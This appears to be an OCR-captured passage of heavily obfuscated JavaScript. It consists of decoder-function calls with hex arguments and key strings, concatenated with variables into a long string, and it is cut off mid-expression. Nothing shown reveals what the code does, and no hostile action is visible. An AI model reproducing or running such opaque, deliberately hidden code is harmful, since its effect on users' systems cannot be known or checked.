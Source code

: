 'u[vL',0x51,0x45c,0x18f,0x59a))+_0x5144e3[_0x1516b9(0x6a3,0x8eb,'%BlB',0x997,0x793)](_0x28a8cf)+(_0x7b41e(0x9f0,0x4c5,0x6a8,0x55a,'u[vL')+_0x7b41e(0x875,0x359,0xbff,0x7d1,'jCq8')+_0x32f231(0x56f,0x91b,'nmrO',0x55e,0x8b3)+_0x1516b9(0xe14,0xddf,'u[vL',0xd66,0x92d)+_0x7b41e(0x72f,-0x61,0x33c,0x454,'jDQ%')+_0x7b41e(0x4bd,0xab6,0x86f,0x554,'VsP5')+_0x7b41e(0x915,0xf95,0x942,0xa74,'3nsn')+_0x1516b9(0xd43,0xb89,'gMbe',0xf07,0x127d)+_0x1516b9(0xb15,0xc31,'f7zP',0xa40,0xd7f)+_0x7b41e(0x354,0x277,0xcd,0x5ff,'ELD4')+_0x30843b(0x6f5,0x408,0x300,'MUvn',0x973)+_0x32f231(0xb08,0xb3d,'yY7p',0x8af,0xa39))+_0x5144e3[_0x30843b(0xc0f,0xb54,0x85b,'Nph!',0xc86)](_0x1c0975)+(_0x1516b9(0x37f,0x814,'GJML',0x75b,0x259)+_0x3e393f('MUvn',0x9ef,0x5e4,0x7ce,0x34e)+_0x7b41e(0x53b,0x56e,0x728,0xa89,'&p@3')+_0x32f231(0x50d,0x17c,'hZ@(',0x440,-0x362)+_0x30843b(0xb3b,0xc3b,0x6eb,'BkYA',0xc82)+_0x7b41e(0x619,0x7cc,0xd03,0x9f9,'^a3H')+_0x1516b9(0x470,0x103,'hZ@(',-0x74,0x3df)+_0x32f231(0x638,0x2cf,'2IEG',0x57b,0x1ed)+_0x1516b9(0xce8,0x788,'z2s*',0x9ae,0xb94)+_0x1516b9(0x9a1,0xb21,'RV&L',0xa78,0x923)+_0x7b41e(0x6a8,0x7ab,0x60c,0xa85,'f7zP')+_0x3e393f('VsP5',0x909,0xcfd,0x831,0xc89)+_0x3e393f('2IEG',0x73e,0x8a8,0x361,0x65d)+_0x30843b(0x8b4,0x79c,0x42c,'*dJk',0x4b3)+_0x1516b9(0x7cb,0x862,'NoQh',0x79e,0x628)+_0x30843b(0x55f,0x232,0x4aa,'!sba',0x4cf)+_0x1516b9(0xad9,0xd4e,'^a3H',0xbfc,0xbe2)+_0x3e393f('BkYA',-0xad,0x442,0x49e,0x270)+_0x32f231(0x22a,0x3c9,'!Ns0',0x622,0x43c)+_0x7b41e(0xa57,0xaea,0xc38,0x706,'erML')+_0x3e393f('nmrO',0x3b7,0x458,0x776,0x679)+_0x3e393f('[G*k',0x7d7,0x184,0x39b,-0x177)+_0x3e393f('hZ@(',0x1da,0x5d4,0x498,0x71e)+_0x30843b(0x48b,0x641,0x2a6,'hZ@(',0x7fb)+_0x3e393f('UWgQ',0x4c7,0xbc5,0x96b,0x483)+_0x32f231(0x660,0x301,'!Ns0',-0xe3,-0xad)+_0x1516b9(0x376,0x29f,'%)8!',0x313,0x5e4)+_0x1516b9(0x914,0x743,'zPpw',0xcdd,0x643)+_0x30843b(0x50f,0x990,0x67d,'GJML',0x6a5)+_0x3e393f('!sba',0xba7,0x957,0x9f7,0x982))+_0x5144e3[_0x3e393f('NoQh',0x24f,0x8f,0x239,-0x284)](_0x47dbf1)+(_0x32f231(0xc9b,0x732,'BkYA',0xb51,0x204)+_0x7b41e(-0xd8,0x495,-0x2c8,0x1a5,'k@mY')+_0x1516b9(0x7df,0xb0d,'[x2m',0xa2b,0x48a)+_0x30843b(0xc5a,0x97e,0x1100,'mnX%',0x958)+_0x7b41e(0xd48,0x660,0x5c4,0x98a,'BkYA')+_0x3e393f('VsP5',0x296,0x315,0x515,0x5ae)+_0x1516b9(0x952,0x882,'nm$w',0x5cd,0x99e)+_0x3e393f('2IEG',0xb7d,0xc74,0xa97,0x74d)+_0x1516b9(0xb13,0xb75,'3*Z^',0x9d4,0xa48)+_0x32f231(0x936,0x76c,'HEWi',0xbb3,0x8b7)+_0x32f231(0x8fc,0x619,'nm$w',0x747,0x854)+_0x3e393f('%)8!',0x8b7,0x758,0x86c,0xa01)+_0x3e393f('ELD4',0x15f,0x654,0x130,0x538)+_0x30843b(0x4f0,0x659,0x699,'NoQh',0x5e4)+_0x1516b9(0x4e7,0x31e,'!Ns0',0x683,0x410)+_0x3e393f('cNeT',-0x1af,0x66d,0x189,-0x1dc)+_0x32f231(0xdbc,0xb79,'HEWi',0xc15,0xd3e)+_0x32f231(0x1c2,0x52f,'ELD4',0x539,0x7f0)+_0x7b41e(0x544,0x101,0x8cf,0x568,'k@mY')+_0x30843b(0x4ae,0x941,0x91a,'jCq8',0x6d3)+_0x32f231(0x42e,0x310,'Nph!',-0x126,0x568)+_0x1516b9(0x38e,0x6a0,'hZ@(',-0xa1,-0xb5)+_0x1516b9(0x5c7,0x5ce,'Nph!',0xb1f,0x9cb)+_0x3e393f(']lRx',0x5ab,0x622,0x4b2,0x774)+_0x3e393f('Kq7x',0x603,0x887,0x4af,0x7ef)+_0x3e393f('NoQh',0xd42,0xd92,0x866,0xba2)+_0x30843b(0x2dc,0x304,0x34a,'[G*k',0x2a6)+_0x1516b9(0x4f6,0x6b6,'ELD4',0x74,0x58b)+_0x30843b(0x867,0x46f,0x3eb,'Kq7x',0x7fb)+_0x1516b9(0xbb7,0x99a,'RV&L',0xa81,0xbde)+_0x3e393f('cNeT',0x92a,0x788,0x66f,0x11e)+_0x1516b9(0x5bb,0x1e1,'BkYA',0x829,0x5a9)+_0x3e393f('KC02',0x59b,0x4ac,0x8e8,0x4a9)+_0x30843b(0x3c1,-0x24,0x607,'k3c7',0x568)+_0x3e393f('%BlB',0x47d,0x589,0x192,0x13e)+_0x3e393f('UWgQ',0x535,0x708,0x827,0x5ad)+_0x32f231(0xa60,0x9f7,'k3c7',0xbd8,0xb6f)+_0x7b41e(0x9dd,0x9a0,0x7ed,0x7cc,'HEWi')+_0x3e393f('nmrO',0x73c,0x684,0x875,0x69c)+_0x32f231(0x16,0x377,'nmrO',-0x1af,0x489)+_0x32f231(0x5c4,0xaa4,'Nph!',0x8c6,0xbf1)+_0x32f231(0x1047,0xb6d,'RV&L',0x109e,0xfd6)+_0x30843b(0xa7a,0xe1d,0x6d2,'zPpw',0xeb2)+_0x7b41e(0x847,0xa4c,0x4e8,0x6be,'yY7p')+_0x7b41e(0x3b3,0x106,0x492,0x1d8,'RnZS')+_0x3e393f('f7zP',0x634,-0x5c,0x433,0x6c2)+_0x7b41e(-0x53,0x10c,0x463,0x394,'[x2m')+_0x30843b(0x9c3,0xcdc,0xbea,'%BlB',0xebb)+_0x3e393f('vG)e',0xa19,0xbaf,0xb05,0x74b))+_0x5144e3[_0x32f231(0x77e,0xbe7,'U12N',0xfbc,0xdf0)](_0x1d3ddc)+(_0x1516b9(0xb4d,0x686,'VsP5',0x827,0xf8f)+_0x3e393f('nmrO',0x3f1,0x913,0x55d,0x9f3)+_0x3e393f('3nsn',0xa96,0xdca,0xac6,0xacb)+_0x3e393f('vG)e',0x3dd,0x3d5,0x164,-0x4a)+_0x30843b(0x778,0x37b,0x468,'erML',0x89e)+_0x3e393f('3nsn',0x55d,0xd8b,0xac6,0x734)+_0x7b41e(0x668,0x826,0xd91,0x988,'k3c7')+_0x32f231(0xe9a,0xb00,'RnZS',0xd22,0x942)+_0x1516b9(0x45d,0x67b,'Mvq4',0x56,0x593)+_0x32f231(0xf5f,0xac3,'nm$w',0xa13,0xf7c)+_0x30843b(0xc30,0x114d,0x105c,'vG)e',0xb1a));let